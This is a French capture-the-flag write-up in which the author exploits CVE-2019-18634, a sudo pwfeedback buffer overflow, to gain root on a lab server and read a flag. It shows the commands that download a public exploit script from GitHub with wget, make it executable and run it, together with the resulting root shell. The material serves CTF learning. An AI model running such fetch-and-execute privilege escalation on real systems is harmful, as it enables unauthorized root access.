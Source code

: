 # Sudoku v2 - 256 pts

Énoncé :

> L'administrateur du serveur a voulu vous aider en ajoutant une aide visuelle lors de la saisie de votre mot de passe. 
>  Hum Hum.. C'est pas une bonne idée ! 
>
>  === Connexion SSH ===
>  Login : `padawan`
>  Mdp :  `padawan`
>  Serveur :` sudoku2.phack.fr`
>
>  Artiste : `@Eagleslam`

```
$ ssh padawan@sudoku2.phack.fr

Bienvenue !

 Le flag se trouve dans /home/master/flag.txt
 Malheureusement, tu n'as pas les droits de le lire.

 Trouves un moyen d'y accéder par toi même.

 Bonne chance...


...............
-bash-5.1$ cat note.txt 


Cher Padawan,

Je sais que tu te trompes souvent de mot de passe.
J'ai donc ajouté une fonctionnalité qui permet d'afficher des * dès que tu saisis un caractère (sudo).
Cela devrait t'aider.

Bon courage,
Ton Master

..............

```

Cette fois je lis les flags du challenges et je vois qu'il y a "cve". Après une [petite recherche sur Internet](https://www.startpage.com/row/search?q=sudo%20password%20feedback%20vulnerability) on tombe sur ce quon cherche :

> Buffer overflow when pwfeedback is set in sudoers, CVE-2019-18634

On cherche le nom de la CVE + "exploit" et on tombe sur ce [repo GitHub](https://github.com/Plazmaz/CVE-2019-18634). Plus qu'à suivre les consignes :

```
$ wget https://raw.githubusercontent.com/Plazmaz/CVE-2019-18634/master/self-contained.sh
Connecting to raw.githubusercontent.com (185.199.110.133:443)
saving to 'self-contained.sh'
self-contained.sh    100% |******************************************************************************************************************************************************|  1305  0:00:00 ETA
'self-contained.sh' saved
$ chmod +x self-contained.sh
$ ./self-contained.sh
Connecting to raw.githubusercontent.com (185.199.111.133:443)
saving to 'socat'
socat                100% |******************************************************************************************************************************************************|  366k  0:00:00 ETA
'socat' saved
/usr/lib/gcc/x86_64-alpine-linux-musl/10.2.1/../../../../x86_64-alpine-linux-musl/bin/ld: cannot open output file /tmp/pipe: Permission denied
collect2: error: ld returned 1 exit status
[sudo] password for padawan: 
Sorry, try again.
# exit
Sorry, try again.
sudo: 3 incorrect password attempts
Exploiting!
```

Et Bingo, on est root :

```
# id
uid=0(root) gid=65533(nogroup) groups=65533(nogroup),65533(nogroup)
# cat /home/master/flag.txt 
PHACK{*_****_****_****_***_**_*_****_***}
```

